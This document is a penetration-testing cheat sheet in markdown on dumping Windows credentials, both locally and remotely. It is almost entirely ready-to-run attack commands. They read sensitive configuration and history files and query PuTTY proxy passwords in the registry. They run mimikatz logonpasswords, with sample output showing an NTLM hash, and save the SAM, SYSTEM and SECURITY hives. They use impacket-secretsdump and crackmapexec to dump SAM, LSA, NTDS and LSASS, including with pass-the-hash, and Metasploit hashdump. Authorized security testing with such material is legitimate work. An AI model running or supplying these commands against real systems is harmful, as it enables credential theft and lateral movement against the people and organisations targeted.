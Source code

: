 # Dumping credentials

## Locally

### Interesting File System

<details>

<summary>Windows configuration file</summary>

```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

</details>

<details>

<summary>Powershell History</summary>



Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands.

```
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

</details>

<details>

<summary>Saved Windows Credentials</summary>

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:

```shell-session
cmdkey /list
```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below.

```shell-session
runas /savecred /user:admin cmd.exe
```

</details>

<details>

<summary>IIS Configuration</summary>



Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:

```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

Here is a quick way to find database connection strings on the file:

{% code title="Powershell" %}
```shell-session
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
{% endcode %}

</details>

### Retrive from Softwares

<details>

<summary>PuTTY</summary>

PuTTY is a popular SSH client for Windows. It allows users to save sessions with connection details like IP and username, so they don't have to enter them every time. Though PuTTY doesn't save SSH passwords, it does save proxy settings with plain text passwords. To find saved proxy passwords, look for the `ProxyPassword` under this registry key using the following command:

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

{% hint style="info" %}
Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.
{% endhint %}

</details>



### Mimikatz

{% content-ref url="../../../tools/tools/mimikatz.md" %}
[mimikatz.md](../../../tools/tools/mimikatz.md)
{% endcontent-ref %}

Then, we need to transfer the tool to dump hashes to the target machine.

#### mimikatz.exe

```powershell
PS> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit

# output
Authentication Id : 0 ; 302247 (00000000:00049ca7)
Session : UndefinedLogonType from 0
User Name : Alice
Domain : DOMAIN
Logon Server : DC1
Logon Time : 12/01/2023 15:13:19
SID : S-1-5-21-3501040295-3816137123-30697657-1109
msv :
[00000003] Primary
* Username : Alice
* Domain : DOMAIN
* NTLM : a0c8746a6efc7782c7c19c55185145be
```

#### Invoke-Mimikatz.ps1

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>



### Stealing SAM & SYSTEM

The easiest way to steal those files is to get a copy from the registry:

```powershell
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

**Download** those files to your Kali machine and **extract the hashes** using:

```bash
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```



## Remotely

Sections below allow us to dump credentials from Kali linux to Windows target.



### Impacket's secretsdump&#x20;

```bash
impacket-secretsdump $DOMAIN.COM/$USER:$PASS@$DC_IP
```

```bash
impacket-secretsdump administrator:@$IP -hashes $LM:$NT
```



### CrackMapExec



```bash
# print all module
crackmapexec smb -L
```



#### Mimikatz

```bash
crackmapexec smb <IP> -u USER -p PASSWORD -M mimikatz
```

#### Dump SAM <a href="#dump-sam-hashes" id="dump-sam-hashes"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --sam
```

#### Dump LSA <a href="#dump-lsa-secrets" id="dump-lsa-secrets"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --lsa
```

#### Dump NTDS <a href="#dump-the-ntdsdit-from-target-dc" id="dump-the-ntdsdit-from-target-dc"></a>

```bash
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --ntds
```

#### Dump LSASS

```bash
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --lsassy

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' -M lsassy
```



### Metasploit

If we have a open meterpreter session&#x20;

```bash
use post/windows/gather/hashdump
set SESSION
run
```





## Hash-Identify

This is a tool that simplify the hash type detection

```bash
hash-identifier
# paste your hash
```



